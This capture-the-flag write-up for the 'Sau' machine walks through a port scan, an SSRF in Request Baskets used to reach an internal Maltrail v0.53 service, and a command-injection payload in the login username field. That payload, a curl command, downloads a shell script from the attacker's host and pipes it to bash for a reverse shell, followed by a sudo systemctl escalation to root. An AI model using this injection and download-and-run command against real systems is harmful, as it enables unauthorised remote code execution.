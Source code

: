 # Sau

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.22.88       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:15 +08
Nmap scan report for 10.129.22.88
Host is up (0.24s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Port 80 is being filtered, while port 55555 is open.&#x20;

### Request Baskets SSRF -> Mailtrail RCE

Port 55555 hosted an application that is able to collect and inspect HTTP requests:

<figure><img src="../../.gitbook/assets/image (3310).png" alt=""><figcaption></figcaption></figure>

We can create one by clicking on create:

<figure><img src="../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

Tihs acts similar to a webhook, and is able to retrieve requests sent to that unique URL.

<figure><img src="../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

We are able to set the Responses from the website. as well as where the traffic is being forwarded to, just like we can with Webhooks. Setting the Forward URL to our own HTTP server results in requests being sent there from the machine.

<figure><img src="../../.gitbook/assets/image (1194).png" alt=""><figcaption></figcaption></figure>

Since port 80 was being filtered, we can set it to `http://localhost` and try setting all the options to True. Afterwards, sending GET requests to our bucket would result in HTML being returned:

```
$ curl http://10.129.22.88:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
<TRUNCATED>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

At the bottom, we can see that port 80 has Mailtrail v0.53 running, which is vulnerable to an unauthenticated RCE exploit.

{% embed url="https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/" %}

To exploit this, we just need to change the forward URL to `http://127.0.0.1/login` and send a POST request via `curl` with a payload like this:

{% code overflow="wrap" %}
```bash
$ curl -X POST --data 'username=;`curl 10.10.14.31/shell.sh|bash`' http://10.129.22.88:55555/test
```
{% endcode %}

We would get a reverse shell as `puma`:

<figure><img src="../../.gitbook/assets/image (2380).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Systemctl -> Root

The user is able to run a command using `sudo`:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This is easily exploitable to get a `root` shell:

<figure><img src="../../.gitbook/assets/image (1460).png" alt=""><figcaption></figcaption></figure>

Rooted!
